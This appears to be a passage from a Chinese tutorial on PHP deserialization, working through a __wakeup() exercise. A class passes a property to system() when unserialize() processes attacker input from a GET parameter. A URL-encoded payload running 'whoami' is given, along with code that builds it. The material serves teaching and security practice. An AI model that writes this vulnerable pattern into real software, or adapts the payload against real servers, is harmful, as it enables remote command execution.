 ```text
object(User)#1 (4) {
  ["username"]=>
  string(1) "a"
  ["nickname"]=>
  string(1) "b"
  ["password":"User":private]=>
  string(1) "a"
  ["order":"User":private]=>
  NULL
}
```

### 9、__wakeup() 例题

示例代码：

```php
<?php
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    private $order;
    public function __wakeup() {
        system($this->username);
    }
}
$user_ser = $_GET['benben'];
unserialize($user_ser);
?>
```

构造 payload：

```text
O%3A4%3A%22User%22%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22whoami%22%3Bs%3A8%3A%22nickname%22%3BN%3Bs%3A14%3A%22%00User%00password%22%3BN%3Bs%3A11%3A%22%00User%00order%22%3BN%3B%7D
```
 
```php
<?php
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    private $order;
    public function __wakeup() {
        system($this->username);
    }
}

$user_ser = new User();
$user_ser->username = 'whoami';
echo urlencode(serialize($user_ser));
```
